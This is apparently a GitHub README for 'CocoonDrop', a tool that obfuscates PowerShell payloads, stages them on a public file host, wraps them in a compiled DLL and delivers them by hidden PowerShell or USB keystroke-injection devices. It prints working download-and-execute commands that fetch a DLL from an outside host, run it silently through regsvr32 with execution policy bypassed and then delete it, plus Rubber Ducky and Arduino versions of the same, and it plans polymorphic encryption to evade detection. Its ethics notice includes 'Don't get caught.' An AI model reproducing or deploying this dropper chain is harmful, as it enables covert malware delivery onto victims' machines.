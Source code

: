 # 🐛 CocoonDrop

> _Wrap your payload in a shell of silence._

**CocoonDrop** is a multi-stage payload obfuscator and dropper generator tailored for CTF creators, red teamers, and anyone needing to make payload delivery **silent**, **modular**, and **weirdly beautiful**.

It encrypts PowerShell payloads using XOR + Base64, stages them via Catbox, optionally shortens URLs using **goolnk over RapidAPI (no key needed)**, wraps them in a one-liner, compiles that into a DLL, and delivers the whole thing through your choice of:
- a raw PowerShell command,
- a Rubber Ducky script,
- or a Beetle USB injection sketch.

---

## ⚙️ Features

- ✅ XOR + Base64 obfuscation with custom key or auto-generation
- ✅ Catbox upload of encrypted payload and staging script
- ✅ **Anonymous URL shortening** using RapidAPI + goolnk (no key required)
- ✅ One-liner PowerShell wrapper that pulls & decrypts live
- ✅ Auto-compiled GCC DLL embedding the obfuscated payload
- ✅ Final delivery via:
  - 🖥️ PowerShell execution
  - 🐥 Rubber Ducky HID script
  - 🪲 Beetle USB Arduino HID script
- ✅ Full PyQt5 GUI with dark mode
- ✅ Transparent logging for each phase

---

## 📦 Installation

### 🔧 Requirements

- Python 3.7+
- GCC (`gcc`, `mingw-w64`, or `x86_64-w64-mingw32-gcc`)
- Internet connection (for Catbox & goolnk)

### 🐍 Python Dependencies

pip install pyqt5 catbox-uploader requests

🧪 Use Cases
Use Case	Description
🔐 Red Team	Payload dropper for low-visibility delivery
🧠 CTF Creation	Make challenge stages that feel real
🔌 HID Injection	Combine with Ducky or Beetle USB for physical access
🔍 Adversarial Sim	Simulate malware delivery without the malware
🛡️ EDR Testing	Safe, weird payload behaviors for defense teams
🧰 Workflow Overview

[PowerShell Script]
        ↓
[XOR + Base64 Encode]
        ↓
[Upload to Catbox]
        ↓
[Generate Stager → Upload to Catbox]
        ↓
[Shorten Link via goolnk (no key)]
        ↓
[Insert into PowerShell One-Liner]
        ↓
[Encode to UTF-16LE + Base64]
        ↓
[Insert into DLL C Code Template]
        ↓
[Compile DLL → Upload to Catbox]
        ↓
[Final PS Dropper + Ducky/Beetle Scripts (optional)]

🚀 Usage

git clone https://github.com/YOUR-USERNAME/cocoondrop.git
cd cocoondrop
python cocoondrop.py

🖥️ Output Examples
🪄 Final PowerShell One-Liner

powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://files.catbox.moe/abc123.dll' -OutFile '$env:TEMP\\dropper.dll'); Start-Process -FilePath 'regsvr32.exe' -ArgumentList '/s $env:TEMP\\dropper.dll'; Start-Sleep -s 3; Remove-Item -Force -Path '$env:TEMP\\dropper.dll'"

🐥 Rubber Ducky Script

DELAY 1000
GUI r
DELAY 200
STRING powershell
ENTER
DELAY 700
STRING powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://...dll' ..."
ENTER

🪲 Beetle USB Sketch (Arduino)

typeString("powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ");
typeString("\"(Invoke-WebRequest -Uri 'https://files.catbox.moe/abc123.dll' -OutFile '$env:TEMP\\dropper.dll'); Start-Process -FilePath 'regsvr32.exe' -ArgumentList '/s $env:TEMP\\dropper.dll'; Start-Sleep -s 3; Remove-Item -Force -Path '$env:TEMP\\dropper.dll'\"");

✍️ GUI Walkthrough

    💬 Paste your PowerShell payload

    🔑 Choose or generate a key

    🧪 Encrypt & upload payload

    📤 Auto-generate and upload staging script

    🔗 CocoonDrop silently shortens it via goolnk RapidAPI

    🧙 Generate DLL from the embedded payload

    📎 Get the final execution script

    🎯 Choose HID output (Ducky / Beetle) — optional

🔐 Legal & Ethics Notice

CocoonDrop is strictly for:

    🔐 Ethical red teaming

    🧠 CTF creation

    🧪 Adversarial simulations

    🛡️ Blue team EDR testing

You are responsible for your actions.
Don't be evil. Don't be stupid. Don’t get caught.
🧬 Why "CocoonDrop"?

Like a cocoon, the payload is hidden, dormant, ready to execute only when triggered.
It doesn’t crawl. It waits.
It doesn’t fight. It deploys.

👨‍🔧 Credits

beigeworm for the inspo

me for reverse engineering his brilliance and turning it into an obfuscator

TODO:
use more encryption than xor
and polymorphic encryption with variable layers

🪓 License

MIT. Just don’t use it for malware and don’t sue me.
